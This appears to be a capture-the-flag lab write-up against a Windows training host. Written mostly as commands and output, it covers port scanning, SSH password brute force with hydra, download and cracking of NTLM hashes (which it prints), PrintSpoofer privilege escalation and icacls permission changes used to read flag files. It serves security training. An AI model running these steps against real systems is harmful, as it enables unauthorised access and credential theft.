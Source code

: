 *Domain* : target.ine.local
*ip*: 10.5.23.252
*os* : windows
*attacker ip and interface*: 10.10.44.3 `on` eth1
**Wordist:** /usr/share/wordlists/metasploit/unix_passwords.txt
**Tool:** /root/Desktop/PrintSpoofer.exe

---

# Enumeration
## port scan
```shell
nmap --min-rate 3000 -p- -sV target.ine.local
	PORT      STATE SERVICE
	22/tcp    open  ssh
	135/tcp   open  msrpc
	139/tcp   open  netbios-ssn
	445/tcp   open  microsoft-ds
	3389/tcp  open  ms-wbt-server
	49152/tcp open  unknown
	49153/tcp open  unknown
	49154/tcp open  unknown
	49155/tcp open  unknown
	49192/tcp open  unknown
```

## service scan
```shell
nmap -sS -sC -sV -A -T4 -oX scan.xml target.ine.local
PORT      STATE SERVICE            VERSION
22/tcp    open  ssh                OpenSSH for_Windows_9.5 (protocol 2.0)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=WIN-GQ7PTVEC6HL
| Not valid before: 2025-01-08T05:58:14
|_Not valid after:  2025-07-10T05:58:14
| rdp-ntlm-info: 
|   Target_Name: WIN-GQ7PTVEC6HL
|   NetBIOS_Domain_Name: WIN-GQ7PTVEC6HL
|   NetBIOS_Computer_Name: WIN-GQ7PTVEC6HL
|   DNS_Domain_Name: WIN-GQ7PTVEC6HL
|   DNS_Computer_Name: WIN-GQ7PTVEC6HL
|   Product_Version: 6.3.9600
|_  System_Time: 2025-05-15T09:10:50+00:00
|_ssl-date: 2025-05-15T09:10:58+00:00; 0s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC

Network Distance: 3 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-05-15T09:10:52
|_  start_date: 2025-05-15T08:56:12

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   0.04 ms ap-south-16 (10.10.36.1)
2   ...
3   2.11 ms target.ine.local (10.5.28.147)
```

# exploitation 
## ssh bruteforce
we have user *alice* for ssh
```shell
passwords=/usr/share/wordlists/metasploit/unix_passwords.txt
hydra -l alice -P $passwords -t 35 ssh://target.ine.local
[22][ssh] host: target.ine.local   login: alice   password: princess1
```
-> got user: `alice` pass: `princess1`
# loot
## ssh server 
```shell
user: alice 
service : ssh

# loot
flag1.txt
hashdump.txt
# download or copy using scp
scp alice@target.ine.local:/Users/alice/hashdump.txt hashdumps.txt
```

## bruteforce ntlm hashes
```shell
john --format=nt --wordlist=/usr/share/wordlists/metasploit/unix_passwords.txt hashdumps.txt
# passwords
princess1        (alice)     
orange           (david)
# john show
john --format=nt --show  hashdumps.txt 
alice:princess1:1015:aad3b435b51404eeaad3b435b51404ee:8883a4229c5553c9cca6856a53011e4c:::
david:orange:1016:aad3b435b51404eeaad3b435b51404ee:ca8e025e9893e8ce3d2cbf847fc56814:::
```
-> try creds on difference services
-> user *david* succesed with ssh service
```shell
ssh david@target.ine.local
# succes
# copy printspoofer exploit to target temp dir
scp PrintSpoofer64.exe david@target.ine.local:/temp/

# exploit 
PrintSpoofer64.exe -i -c cmd.exe
```

## privilege escalation
```shell

# windows file permissions commands
C:\Users\Administrator>icacls flag
icacls flag
flag NT AUTHORITY\SYSTEM:(OI)(CI)(DENY)(RX)
     NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
     BUILTIN\Administrators:(I)(OI)(CI)(F)
     WIN-GQ7PTVEC6HL\Administrator:(I)(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator>icacls flag /remove:d "NT AUTHORITY\SYSTEM"
icacls flag /remove:d "NT AUTHORITY\SYSTEM"
processed file: flag
Successfully processed 1 files; Failed processing 0 files 

C:\Users\Administrator\flag>more flag4.txt
more flag4.txt
3a0e48fee94f4f6d9dbec62766985a5f
```
